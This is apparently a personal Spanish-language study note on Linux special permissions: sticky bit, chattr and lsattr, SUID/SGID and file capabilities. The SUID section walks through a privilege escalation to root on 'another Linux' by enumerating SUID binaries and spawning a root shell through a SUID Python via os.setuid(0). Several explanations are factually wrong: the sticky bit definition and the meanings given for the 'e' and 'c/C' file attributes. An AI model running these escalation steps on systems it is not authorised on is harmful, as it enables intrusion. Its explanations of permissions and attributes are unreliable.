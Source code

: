 [[index]]
[[index_linux]]

## PERMISO ESPECIAL: STICKY BIT

**DEFINICION:**
	El permiso #StickyBit deniega los permisos '777 y 666' a archivo y directorios de cualquier usuario pero `SOLO A GRUPOS Y A OTROS`.
**ASIGNACION:**
	Puede ser asignado con el siguiente comando:
```bash
# Modo normal
chmod +t archivo/directorio

# Modo octal
chmod 1777 archivo/directorio
```




## CONTROL DE ATRIBUTOS DE FICHERO: ATTR

**COMANDOS:**
	El #Lsattr visualiza los atributos de fichero.
&&
	El #Chattr hace in-borrable un archivo/directori incluso para el usuario root.
```bash
# Agregar
chattr +i -V archivo/directorio
# Quitar
chattr -i -V archivo/directorio
```

**PERMISOS:**
	"e": Indica que el atributo "append-only" está activado. Cuando este atributo está establecido en un archivo, solo se le permite agregar datos al final del archivo. No se pueden modificar ni eliminar datos existentes.
	"c" o "C": Indica que el atributo "no-clobber" está activado. Este atributo también controla la capacidad de agregar datos al archivo, pero de manera más restrictiva que el atributo "append-only". Si el atributo "c" está establecido, solo los usuarios con capacidad de escritura en el directorio pueden agregar datos al archivo. Si el atributo "C" está establecido, incluso el propietario del archivo no puede agregar datos.




## PERMISO ESPECIAL: SUID Y SGID

**DEFINICION:**
	Los permisos #SUID y #SGID activan la funcion root de forma pasiva.
**COMANDO:**
```bash
# Para usuario con y sin numeracion octal
chmod 4755(4000) directorio
chmod 4644(4000) archivo

# Para grupo con y sin numeracion octal
chmod 2755(2000) directorio
chmod 2644(2000) archivo
```

**EJEMPLO DE USO:**
	En el siguiente ejemplo se vera el paso a paso de como acceder al usiario root de otro linux mediante un _suid_/_sgid_.
	Estando en modo no root.
1. Buscar archivos/directorios con estas funciones activadas y luego filtralas con un redireccionamiento.
```bash
# Usuario
find / -type f -perm -4000 2>/dev/null

# Grupo
find / -type f -perm -2000 2>/dev/null
```
2. Elegir una de la lista, en caso de no tener se puede agregar esta funcion especial. `ACCION EN MODO ROOT`.
```bash
# Usuario
chmod u+s archivo/directorio

# Grupo
chmod g+s archivo/directorio
```
3. Tomaremos de ejemplo al archivo _python3.9_
```bash
$ chmod u+s /usr/bin/python3.9
$ python3.9 # Ejecutamos el archivo SUID
$ import os # Instalamos os(siempre)
$ os.setuid(0) # Entremos en modo ROOT
$ os.system('bash') # Elegimos una SHEEL
```




## PRIVILEGIO ESPECIAL: CAPABILITIES

**DEFINICION:**
	Los permisos #Setcap y #Getcap agregan/eliminan y visualizan de forma mega pasiva al usuario root.
**COMANDOS:**
1. Agregar.
```bash
setcap cap_setuid+ep /usr/bin/python3.9
```
2. Eliminar.
```bash
setcap -r /usr/bin/python3.9
```
4. Visualizar.
```bash
getcap -r / 2>/dev/null
```
6. Visualizar instantaneamente.
```bash
getcap !$
```




## LINK

```
# Permisos especial: sticky bit
https://keepcoding.io/blog/que-es-el-sticky-bit-y-como-configurarlo/
https://www.fpgenred.es/GNU-Linux/el_bit_sticky.html

# Permisos especiales: chattr
https://rm-rf.es/chattr-y-lsattr-visualizar-y-modificar-atributos-en-sistemas-de-ficheros-linux/#:~:text=El%20primer%20comando%2C%20lsattr%20permite,chmod%2C%20chown%2Csetfacl%E2%80%A6)
https://programmerclick.com/article/5604675172/

# Permisos especiales: SUID Y SGID
https://deephacking.tech/permisos-sgid-suid-y-sticky-bit-linux/#:~:text=Permiso%20SGID,-El%20permiso%20SGID&text=Si%20se%20establece%20en%20un,perteneciente%2C%20el%20grupo%20del%20directorio.
https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/
https://www.ibiblio.org/pub/linux/docs/LuCaS/Manuales-LuCAS/SEGUNIX/unixsec-2.1-html/node56.html

# Privilegios especiales: capabilities
http://www.etl.it.uc3m.es/Linux_Capabilities
```
